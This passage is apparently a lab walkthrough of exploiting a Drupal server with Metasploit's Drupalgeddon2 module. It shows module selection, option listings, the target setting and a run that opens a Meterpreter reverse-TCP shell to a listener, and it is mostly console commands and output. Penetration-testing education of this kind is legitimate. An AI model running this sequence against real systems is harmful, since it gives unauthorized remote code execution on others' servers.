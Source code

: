 Now we have to tell Metasploit we should use this explit with command `use` followed by the number of the exploit.
```bash
msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > 
```
Let's now check the toptions what we can configure in the exploit.
```bash
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > options

Module options (exploit/unix/webapp/drupal_drupalgeddon2):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   DUMP_OUTPUT  false            no        Dump payload command output
   PHP_FUNC     passthru         yes       PHP function to execute
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       Path to Drupal install
   VHOST                         no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (PHP In-Memory)



View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/drupal_drupalgeddon2) >
```
The remote host is empty, let's enter the tartget with the following command: `set RHOST <IP-ADDRESS-TARGET>`
```bash
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOSTS 10.0.2.30
RHOSTS => 10.0.2.30
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > 
```
To start the exploit, we just have to enter `run` and hit the enter key.
```bash
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > run

[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Sending stage (39927 bytes) to 10.0.2.30
[*] Meterpreter session 1 opened (10.0.2.15:4444 -> 10.0.2.30:44128) at 2023-03-26 13:54:38 +0200

meterpreter > 
```